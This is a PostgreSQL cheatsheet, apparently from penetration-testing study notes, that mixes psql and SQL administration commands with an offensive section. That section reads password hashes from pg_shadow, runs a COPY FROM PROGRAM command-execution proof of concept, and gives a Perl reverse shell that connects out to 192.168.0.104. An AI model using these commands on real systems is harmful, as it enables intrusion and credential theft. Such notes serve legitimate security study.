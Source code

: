 # PostgreSQL Cheatsheet

**Warning part of this article were created with ChatGTP 3.5 consulting the [PostgreSQL Documentation](https:--www.postgresql.org/docs/)**

```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \? -- Get Help
postgres=# \list                     -- list all databases
postgres=# \l                        -- Shortform List databases 
postgres=# \c                        -- use database
postgres=# \c <DATABASE>             -- use specific database
postgres=# \s                        -- command history
postgres=# \q                        -- quit
<DATABASE>=# \dt                     -- list tables from current schema
<DATABASE>=# \dt *.*                 -- list tables from all schema
<DATABASE>=# \dt+ -- show size and description
<DATABASE>=# \du                     -- list users roles
<DATABASE>=# \du+                    -- list users roles
<DATABASE>=# SELECT user;            -- get current user
<DATABASE>=# TABLE <TABLE>;          -- select table
<DATABASE>=# SELECT * FROM users;    -- select everything from users table
<DATABASE>=# SHOW rds.extensions;    -- list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    -- read credentials
<DATABASE>=# select * from TabLeNameHeRE -- Case insensitive
```

[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https:--www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

#### More Administrative Commands

Creating and Managing Databases
```sql
-- Create a new database
CREATE DATABASE database_name;
-- Drop a database
DROP DATABASE database_name;
-- Create a new table
CREATE TABLE table_name (
    column_name1 datatype,
    column_name2 datatype,
    ...
);
```

Creating and Managing Databases 
```sql
-- Delete a table
DROP TABLE table_name;
-- Insert data into a table
INSERT INTO table_name (column1, column2, ...) VALUES (value1, value2, ...);
```

Querying Data 
```sql
-- Retrieve all records from a table
SELECT * FROM table_name;
-- Retrieve specific columns and filter results
SELECT column1, column2 FROM table_name WHERE condition;
-- Aggregate functions (e.g., SUM, AVG, COUNT)
SELECT AVG(column) FROM table_name;
-- Joining tables
SELECT column1, column2 FROM table1 JOIN table2 ON table1.column = table2.column;
```

Updating and Deleting
```sql
-- Update records
UPDATE table_name SET column = value WHERE condition;
-- Delete records
DELETE FROM table_name WHERE condition;
```

Indexes
```sql
-- Create an index
CREATE INDEX index_name ON table_name (column_name);
-- Drop an index
DROP INDEX index_name;
```

User Management
```sql
-- Create a new user
CREATE USER username WITH PASSWORD 'password';
-- Grant privileges to a user
GRANT privilege ON table_name TO username;
-- Revoke privileges from a user
REVOKE privilege ON table_name FROM username;
-- Change a user's password
ALTER USER username WITH PASSWORD 'new_password';
```

Backup and Restore
```bash
# Create a backup
pg_dump -h hostname -d database_name -U username -f backup.sql
# Restore from backup
psql -h hostname -d database_name -U username -f backup.sql
```


## References

[PostgreSQL Documentation](https:--www.postgresql.org/docs/)
[postgresqltutorial](https:--www.postgresqltutorial.com/postgresql-administration/postgresql-show-tables/)
[0xsyr0](https:--github.com/0xsyr0/OSCP#postgresql) 
[HackTricks](https:--book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce)